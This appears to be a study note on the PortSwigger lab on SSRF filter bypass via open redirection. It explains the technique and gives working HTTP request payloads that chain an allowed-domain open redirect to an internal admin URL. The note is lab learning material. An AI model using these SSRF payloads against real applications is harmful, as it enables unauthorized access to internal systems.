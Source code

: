 # SSRF with filter bypass via open redirection vulnerability

[Lab in PortSwigger](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

## Definition
It is sometimes possible to circumvent any kind of filter-based defenses by exploiting an open redirection vulnerability.

In the preceding SSRF example, suppose the user-submitted URL is strictly validated to prevent malicious exploitation of the SSRF behavior. However, the application whose URLs are allowed contains an open redirection vulnerability. Provided the API used to make the back-end HTTP request supports redirections, you can construct a URL that satisfies the filter and results in a redirected request to the desired back-end target.

For example, suppose the application contains an open redirection vulnerability in which the following URL: `/product/nextProduct?currentProductId=6&path=http://evil-user.net` returns a redirection to: `http://evil-user.net`

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

This SSRF exploit works because the application first validates that the supplied stockAPI URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing. 

## Notes
Admin URL
`http://192.168.0.12:8080/admin`

Open redirect vulnerability
`GET /product/nextProduct?currentProductId=4&path=/product?productId=5`

SSRF payload using open redirect
`GET /product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin`

Another option: [SSRF request splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)

## Key Words
> filter, bypass, open redirect, cr-lf injection, request splitting, ssrf